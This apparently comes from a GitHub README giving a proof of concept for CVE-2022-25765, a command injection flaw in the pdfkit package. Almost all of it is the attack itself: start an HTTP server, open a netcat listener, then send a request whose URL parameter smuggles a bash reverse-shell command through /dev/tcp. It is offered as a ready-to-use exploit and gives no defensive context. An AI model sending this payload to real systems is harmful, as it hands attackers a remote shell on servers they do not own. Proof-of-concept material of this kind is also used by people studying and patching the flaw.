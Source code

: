 # PDFkit-CMD-Injection 

## CVE-2022-25765 Detail

Description
The package pdfkit from 0.0.0 are vulnerable to Command Injection where the URL is not properly sanitized.



# PoC

### Start a HTTP server
<pre>
1- python3 -m http.server 80
</pre>
### Start a netcat listener
<pre>
2- nc -lnvp 'Target Port'
</pre>
### Make a request 
<pre>
3- http://"TARGET_ADDRESS:Target PORT"//?name=#{'%20`bash -c 'exec bash -i &>/dev/tcp/"Target_ADRESS/LISTENING_PORT"<&1'`'}
</pre>
